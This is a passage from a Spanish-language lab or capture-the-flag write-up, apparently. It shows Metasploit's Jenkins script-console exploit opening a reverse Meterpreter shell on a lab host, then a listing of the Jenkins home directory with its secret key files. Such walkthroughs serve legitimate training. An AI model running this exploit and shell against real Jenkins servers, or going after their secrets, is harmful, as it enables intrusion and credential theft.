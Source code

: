 Y ejecútalo:
```bash
msf6 exploit(multi/http/jenkins_script_console) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: '59b63ed25c3c5eb39c022b588de43208cbc4edd78c465bcd5a333' (Jenkins-Crumb style v2)
[*] 192.168.1.230:8080 - Sending Linux stager...
[*] Sending stage (1017704 bytes) to 192.168.1.230
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.230:42502) at 2025-04-04 15:34:03 -0600

meterpreter > getuid
Server username: jenkins
```
Listo, estamos dentro.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="enumLin">Enumeración de Máquina Víctima y Convirtiéndonos en el Usuario geralt</h2>

En el directorio actual, podremos ver archivos relacionados con **Jenkins**:
```bash
100
drwxr-xr-x 12 jenkins jenkins  4096 abr  4 21:08 .
drwxr-xr-x 24 root    root     4096 jun  6  2024 ..
drwxr-xr-x  3 jenkins jenkins  4096 jun  6  2024 .cache
-rw-r--r--  1 jenkins jenkins  1658 abr  4 20:28 config.xml
drwxr-xr-x  3 jenkins jenkins  4096 jun  6  2024 .groovy
-rw-r--r--  1 jenkins jenkins   156 abr  4 20:28 hudson.model.UpdateCenter.xml
-rw-r--r--  1 jenkins jenkins   370 jun  6  2024 hudson.plugins.git.GitTool.xml
-rw-------  1 jenkins jenkins  1680 jun  6  2024 identity.key.enc
drwxr-xr-x  3 jenkins jenkins  4096 jun  6  2024 .java
-rw-r--r--  1 jenkins jenkins     5 abr  4 20:28 jenkins.install.InstallUtil.lastExecVersion
-rw-r--r--  1 jenkins jenkins     5 jun  6  2024 jenkins.install.UpgradeWizard.state
-rw-r--r--  1 jenkins jenkins   179 jun  6  2024 jenkins.model.JenkinsLocationConfiguration.xml
-rw-r--r--  1 jenkins jenkins   171 jun  6  2024 jenkins.telemetry.Correlator.xml
drwxr-xr-x  2 jenkins jenkins  4096 jun  6  2024 jobs
-rw-r--r--  1 jenkins jenkins     0 abr  4 20:28 .lastStarted
drwxr-xr-x  2 jenkins jenkins  4096 jun  6  2024 logs
-rw-r--r--  1 jenkins jenkins  1037 abr  4 20:28 nodeMonitors.xml
-rw-r--r--  1 jenkins jenkins     3 abr  4 22:12 .owner
drwxr-xr-x 91 jenkins jenkins 12288 jun  6  2024 plugins
-rw-r--r--  1 jenkins jenkins    64 jun  6  2024 secret.key
-rw-r--r--  1 jenkins jenkins     0 jun  6  2024 secret.key.not-so-secret
drwx------  2 jenkins jenkins  4096 jun  6  2024 secrets
drwxr-xr-x  2 jenkins jenkins  4096 abr  4 20:28 updates
drwxr-xr-x  2 jenkins jenkins  4096 jun  6  2024 userContent
drwxr-xr-x  3 jenkins jenkins  4096 jun  6  2024 users
```
Me da curiosidad esos **archivos secret**, pero no creo que nos sirvan por ahora.
